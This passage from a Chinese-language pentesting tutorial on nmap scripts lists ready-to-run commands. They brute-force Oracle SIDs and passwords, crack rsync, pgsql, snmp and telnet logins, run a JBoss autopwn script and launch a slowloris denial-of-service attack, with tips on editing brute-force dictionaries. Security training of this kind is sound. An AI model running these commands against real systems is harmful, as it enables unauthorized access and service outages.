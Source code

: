 oracle sid扫描

```
nmap --script=oracle-sid-brute -p 1521-1560 192.168.137.5   

```

![enter image description here](http://drops.javaweb.org/uploads/images/f762fe3c45553e0bb21604fbe70aa726b58368f8.jpg)

oracle弱口令破解

```
nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=ORCL,userdb=/var/passwd,passdb=/var/passwd 192.168.137.5      

```

![enter image description here](http://drops.javaweb.org/uploads/images/5f7e27d416f0d215f4706e30e001863fadbafdf3.jpg)

（6）其他一些比较好用的脚本

```
nmap --script=broadcast-netbios-master-browser 192.168.137.4   发现网关  
nmap -p 873 --script rsync-brute --script-args 'rsync-brute.module=www' 192.168.137.4  破解rsync  
nmap --script informix-brute -p 9088 192.168.137.4    informix数据库破解  
nmap -p 5432 --script pgsql-brute 192.168.137.4       pgsql破解  
nmap -sU --script snmp-brute 192.168.137.4            snmp破解  
nmap -sV --script=telnet-brute 192.168.137.4          telnet破解  
nmap --script=http-vuln-cve2010-0738 --script-args 'http-vuln-cve2010-0738.paths={/path1/,/path2/}' <target>  jboss autopwn  
nmap --script=http-methods.nse 192.168.137.4 检查http方法  
nmap --script http-slowloris --max-parallelism 400 192.168.137.4  dos攻击，对于处理能力较小的站点还挺好用的 'half-HTTP' connections   
nmap --script=samba-vuln-cve-2012-1182  -p 139 192.168.137.4

```

（7）不靠谱的脚本：

vnc-brute    次数多了会禁止连接

pcanywhere-brute   同上

![2014060616350538005.jpg](http://drops.javaweb.org/uploads/images/c4c99c404caf3210347e299a067bcc945cc6e709.jpg)

0x03  学会脚本分析
------------

* * *

nmap中脚本并不难看懂，所以在使用时如果不知道原理可以直接看利用脚本即可，也可以修改其中的某些参数方便自己使用。

举例：

关于oracle的弱口令破解：

调用过程：oracle-brute.nse >> oracle-default-accounts.lst

首先是调用破解脚本：

![2014060616383416251.jpg](http://drops.javaweb.org/uploads/images/95f23c73bb12ecd24cc56076769f881ad8f46ab5.jpg)

根据脚本中字典的位置去查看默认字典，当然也可以将破解的字符自行添加其中，或者是修改脚本或参数改变破解字典：

![2014060616385857682.jpg](http://drops.javaweb.org/uploads/images/ad350a3b0b2dcb997f6dc9aaeff5a3aca4e27564.jpg)